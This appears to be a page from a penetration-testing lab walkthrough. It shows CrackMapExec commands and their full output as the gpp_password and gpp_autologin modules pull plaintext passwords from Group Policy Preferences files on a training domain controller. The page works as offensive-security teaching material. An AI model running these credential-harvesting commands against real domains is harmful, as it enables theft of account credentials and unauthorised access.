 ### Password GPP

```
crackmapexec smb 10.129.203.121 -u grace -p Inlanefreight01! -M
gpp_password
SMB 10.129.203.121 445 DC01 [*] Windows 10.0 Build
17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True)
(SMBv1:False)
SMB 10.129.203.121 445 DC01 [+]
inlanefreight.htb\grace:Inlanefreight01!
GPP_PASS... 10.129.203.121 445 DC01 [+] Found SYSVOL share
GPP_PASS... 10.129.203.121 445 DC01 [*] Searching for
potential XML files containing passwords
GPP_PASS... 10.129.203.121 445 DC01 [*] Found
inlanefreight.htb/Policies/{31B2F340-016D-11D2-945F00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
GPP_PASS... 10.129.203.121 445 DC01 [+] Found credentials
in inlanefreight.htb/Policies/{31B2F340-016D-11D2-945F00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
GPP_PASS... 10.129.203.121 445 DC01 Password:
Inlanefreight1998!
GPP_PASS... 10.129.203.121 445 DC01 action: U
GPP_PASS... 10.129.203.121 445 DC01 newName:
GPP_PASS... 10.129.203.121 445 DC01 fullName:
GPP_PASS... 10.129.203.121 445 DC01 description:
GPP_PASS... 10.129.203.121 445 DC01 changeLogon: 0
GPP_PASS... 10.129.203.121 445 DC01 noChange: 1
GPP_PASS... 10.129.203.121 445 DC01 neverExpires: 1
GPP_PASS... 10.129.203.121 445 DC01 acctDisabled: 0
GPP_PASS... 10.129.203.121 445 DC01 userName:
inlanefreight.htb\engels
```


### AutoLogin GPP

```
crackmapexec smb 10.129.203.121 -u grace -p Inlanefreight01! -M
gpp_autologin
SMB 10.129.203.121 445 DC01 [*] Windows 10.0 Build
17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True)
(SMBv1:False)
SMB 10.129.203.121 445 DC01 [+]
inlanefreight.htb\grace:Inlanefreight01!
GPP_AUTO... 10.129.203.121 445 DC01 [+] Found SYSVOL share
GPP_AUTO... 10.129.203.121 445 DC01 [*] Searching for
Registry.xml
GPP_AUTO... 10.129.203.121 445 DC01 [*] Found
inlanefreight.htb/Policies/{C17DD5D1-0D41-4AE9-B393-
ADF5B3DD208D}/Machine/Preferences/Registry/Registry.xml
GPP_AUTO... 10.129.203.121 445 DC01 [+] Found credentials
in inlanefreight.htb/Policies/{C17DD5D1-0D41-4AE9-B393-
ADF5B3DD208D}/Machine/Preferences/Registry/Registry.xml
GPP_AUTO... 10.129.203.121 445 DC01 Usernames: ['kiosko']
GPP_AUTO... 10.129.203.121 445 DC01 Domains:
['INLANEFREIGHT']
GPP_AUTO... 10.129.203.121 445 DC01 Passwords:
['SimplePassword123!']
```
